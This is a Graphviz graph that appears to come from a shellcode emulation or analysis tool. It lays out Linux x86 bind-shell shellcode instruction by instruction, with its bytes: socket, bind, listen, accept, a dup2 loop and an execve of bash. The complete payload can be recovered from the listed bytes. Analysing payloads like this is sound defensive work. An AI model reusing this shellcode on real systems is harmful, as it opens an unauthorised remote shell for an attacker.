 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x8971468" [shape=box, label = "0x00417000 31C0                            xor eax,eax\l0x00417002 31DB                            xor ebx,ebx\l0x00417004 31C9                            xor ecx,ecx\l0x00417006 31D2                            xor edx,edx\l0x00417008 31FF                            xor edi,edi\l0x0041700a 31F6                            xor esi,esi\l0x0041700c B066                            mov al,0x66\l0x0041700e B301                            mov bl,0x1\l0x00417010 57                              push edi\l0x00417011 53                              push ebx\l0x00417012 6A02                            push byte 0x2\l0x00417014 89E1                            mov ecx,esp\l"]
	 "0x896c538" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417016 socket\l"]
	 "0x8974068" [shape=box, label = "0x00417018 96                              xchg eax,esi\l0x00417019 B066                            mov al,0x66\l0x0041701b 5B                              pop ebx\l0x0041701c 57                              push edi\l0x0041701d 66683A97                        push word 0x973a\l0x00417021 6653                            push bx\l0x00417023 89E1                            mov ecx,esp\l0x00417025 6A10                            push byte 0x10\l0x00417027 51                              push ecx\l0x00417028 56                              push esi\l0x00417029 89E1                            mov ecx,esp\l"]
	 "0x8974b70" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041702b bind\l"]
	 "0x8974c48" [shape=box, label = "0x0041702d B066                            mov al,0x66\l0x0041702f B304                            mov bl,0x4\l0x00417031 57                              push edi\l0x00417032 56                              push esi\l0x00417033 89E1                            mov ecx,esp\l"]
	 "0x8975148" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417035 listen\l"]
	 "0x8975220" [shape=box, label = "0x00417037 B066                            mov al,0x66\l0x00417039 FEC3                            inc bl\l0x0041703b 57                              push edi\l0x0041703c 56                              push esi\l0x0041703d 89E1                            mov ecx,esp\l"]
	 "0x8975718" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041703f accept\l"]
	 "0x89757f0" [shape=box, label = "0x00417041 93                              xchg eax,ebx\l0x00417042 89F9                            mov ecx,edi\l0x00417044 B103                            mov cl,0x3\l"]
	 "0x8975af0" [shape=box, label = "0x00417046 B03F                            mov al,0x3f\l"]
	 "0x8975bf0" [shape=box, label = "0x00417048 49                              dec ecx\l"]
	 "0x8975cf0" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417049 dup2\l"]
	 "0x8975dc8" [shape=box, label = "0x0041704b 75                              jnz 0x1\l"]
	 "0x8975ec8" [shape=box, label = "0x0041704d B00B                            mov al,0xb\l0x0041704f 57                              push edi\l0x00417050 6862617368                      push dword 0x68736162\l0x00417055 686E2F2F2F                      push dword 0x2f2f2f6e\l0x0041705a 682F2F6269                      push dword 0x69622f2f\l0x0041705f 89E3                            mov ebx,esp\l"]
	 "0x89764e0" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417061 execve\l"]
	 "0x8971468" -> "0x896c538" [style = bold ]
	 "0x896c538" -> "0x8974068" [style = bold ]
	 "0x8974068" -> "0x8974b70" [style = bold ]
	 "0x8974b70" -> "0x8974c48" [style = bold ]
	 "0x8974c48" -> "0x8975148" [style = bold ]
	 "0x8975148" -> "0x8975220" [style = bold ]
	 "0x8975220" -> "0x8975718" [style = bold ]
	 "0x8975718" -> "0x89757f0" [style = bold ]
	 "0x89757f0" -> "0x8975af0" [style = bold ]
	 "0x8975af0" -> "0x8975bf0" [style = bold, color=orange ]
	 "0x8975bf0" -> "0x8975cf0" [style = bold, color=orange ]
	 "0x8975cf0" -> "0x8975dc8" [style = bold, color=orange ]
	 "0x8975dc8" -> "0x8975af0" [style = bold, color=orange ]
	 "0x8975dc8" -> "0x8975ec8" [style = bold ]
	 "0x8975ec8" -> "0x89764e0" [style = bold ]
}